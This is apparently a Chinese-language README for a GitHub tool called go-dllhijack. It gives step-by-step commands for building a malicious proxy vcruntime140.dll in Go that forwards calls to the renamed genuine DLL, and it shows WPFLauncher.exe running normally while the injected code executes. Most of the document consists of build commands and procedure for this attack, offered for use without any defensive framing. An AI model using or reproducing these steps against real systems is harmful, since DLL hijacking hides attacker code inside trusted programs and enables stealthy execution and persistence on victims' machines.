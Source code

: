 # go-dllhijack
##基于go的简单劫持方法
在使用前请确保你系统上有GoLang python MinGW

以vcruntime140.dll为例
```sh
git clone https://github.com/famei/go-dllhijack
pip install pefile
python def.py vcruntime140.dll
```
会得到以下输出
![](https://raw.githubusercontent.com/famei/go-dllhijack/main/def.png)
将输出的内容复制到win.def内

新建一个bat脚本
```bat
dlltool --output-exp win.exp --input-def win.def
set GOOS=windows
set GOARCH=386
set CGO_ENABLED=1
go build -buildmode=c-shared -o vcruntime140.dll -ldflags="-extldflags=-Wl,{文件夹绝对路径}\win.exp -s -w"
```
会得到一个vcruntime140.dll文
将正常的vcruntime140.dll重命名为_vcruntime140.dll
将恶意的vcruntime140.dll和_vcruntime140.dl放在同一目录

这里用WPFLauncher.exe作为演示
双击WPFLauncher.exe程序正常运行 恶意代码被成功执行
![](https://raw.githubusercontent.com/famei/go-dllhijack/main/WPFLauncher.png)


